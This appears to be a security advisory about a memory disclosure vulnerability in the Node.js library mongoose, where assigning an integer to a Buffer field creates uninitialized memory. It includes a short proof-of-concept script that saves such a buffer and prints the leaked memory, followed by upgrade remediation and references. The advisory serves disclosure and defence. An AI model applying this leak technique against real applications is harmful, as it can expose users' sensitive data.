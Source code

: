 ## Overview
A potential memory disclosure vulnerability exists in mongoose.
When documents with fields of type `Buffer` is created, assignment of an integer value to that field will result in creation of a buffer the length of which is the provided integer. This buffer will contain uninitialized memory, 
as a result a malicious user can create arbitrarily large buffers that are not zero-ed out, which can lead to saving sensitive information like code or user data in MongoDB.

### Details
With buffers in node when you allocate it with a number instead of a string it will allocate the amount of bytes.
**Example:**
```
var x = new Buffer(100);
// vs
var x = new Buffer('100');
```
This would allocate 100 bytes of memory in the first example and just 3 bytes with 100 as value in the second example. 

#### Proof of concept
```javascript
var mongoose = require('mongoose');
mongoose.connect('mongodb://localhost/bufftest');

// data: Buffer is not uncommon, taken straight from the docs: http://mongoosejs.com/docs/schematypes.html
mongoose.model('Item', new mongoose.Schema({id: String, data: Buffer}));

var Item = mongoose.model('Item');

var sample = new Item();
sample.id = 'item1';

// This will create an uninitialized buffer of size 100
sample.data = 100;
sample.save(function () {
    Item.findOne(function (err, result) {
        // Print out the data (exposed memory)
        console.log(result.data.toString('ascii'))
        mongoose.connection.db.dropDatabase(); // Clean up everything
        process.exit();
    });
});
```

## Remediation
Upgrade `mongoose` to version >= 3.8.39 or >= 4.3.6.

If a direct dependency update is not possible, use [`snyk wizard`](https://snyk.io/documentation/#wizard) to patch this vulnerability.

## References
- https://github.com/Automattic/mongoose/issues/3764
- https://github.com/ChALkeR/notes/blob/master/Lets-fix-Buffer-API.md#previous-materials
- https://github.com/ChALkeR/notes/blob/master/Buffer-knows-everything.md
